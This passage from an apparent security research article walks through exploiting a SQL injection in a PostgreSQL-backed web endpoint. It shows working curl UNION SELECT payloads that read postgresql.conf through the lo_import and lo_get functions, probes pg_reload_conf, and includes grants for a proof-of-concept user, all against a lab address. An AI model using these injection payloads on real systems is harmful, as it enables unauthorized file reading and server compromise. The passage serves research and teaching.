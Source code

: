 It involves overwriting the config file and either waiting for the server
to reboot or forcefully reloading the configuration via the
pg_reload_conf() PostgreSQL function[7].

We will return to this matter later in the article. For now, let's just
check if we have the permissions to call every function mentioned above.

Calling lo_ functions:

</PRE>
```sh
$ curl -G "http://172.23.16.127:8000/phrases" --data-urlencode \
"id=-1 UNION SELECT 1337, CAST((SELECT lo_import('/var/lib/postgresql/data/postgresql.conf', 31337)) AS text)"
[
    {"id":1337,"text":"31337"}
]

$ curl -G "http://172.23.16.127:8000/phrases" --data-urlencode \
"id=-1 UNION SELECT 1337, CAST((SELECT lo_get(31337)) AS text)"
[
    {"id":1337,"text":"\\x23202d2d2d...72650a"}
]
```
<PRE>


Large object functions work just fine! We've imported a file into the DB
and consequently read it from the object with ID 31337.


Calling pg_reload_conf function:

</PRE>
```sh
$ curl -G "http://172.23.16.127:8000/phrases" --data-urlencode \
"id=-1 UNION SELECT 1337, CAST((SELECT pg_reload_conf()) AS text)"
[]
```
<PRE>


There is a problem with the pg_reload_conf function, however. In success
cases, it should return a row with the text "true".

Why can we call large object functions but not pg_reload_conf?
Shouldn't they both be accessible to a superuser?


---[ 1.3 - Not (entirely) a superuser

They should, but we happen to not be one. Our test user has explicit
permissions over the large object functions but lacks access to anything
else. The permissions should be similar to the below example
configuration:

</PRE>
```sql
CREATE USER poc_user WITH PASSWORD 'poc_pass'

GRANT pg_read_server_files TO poc_user
GRANT pg_write_server_files TO poc_user

GRANT USAGE ON SCHEMA public TO poc_user
GRANT SELECT, INSERT, UPDATE, DELETE ON TABLE pg_largeobject TO poc_user

GRANT EXECUTE ON FUNCTION lo_export(oid, text) TO poc_user
GRANT EXECUTE ON FUNCTION lo_import(text, oid) TO poc_user
```
<PRE>
